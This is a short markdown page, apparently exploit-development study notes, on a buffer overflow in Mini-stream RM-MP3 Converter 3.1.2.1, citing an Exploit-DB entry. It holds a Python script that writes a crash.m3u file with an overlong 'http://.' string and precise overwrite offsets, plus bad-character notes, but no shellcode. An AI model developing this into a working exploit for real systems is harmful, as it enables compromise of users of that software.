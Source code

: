 # Mini-stream RM-MP3 Converter 3.1.2.1 

Downloaded from: https://www.exploit-db.com/exploits/20116

## Initial Crash
```py
#!/usr/bin/python
 
import sys, struct
 
file="crash.m3u"
 
#---------------------------------------------------------------------#
# Badchars: '\x00\x09\x0A'                                            #
#---------------------------------------------------------------------#
crash = "http://." + "A"*17416 + "B"*4 + "C"*7572
 
writeFile = open (file, "w")
writeFile.write( crash )
writeFile.close()
```
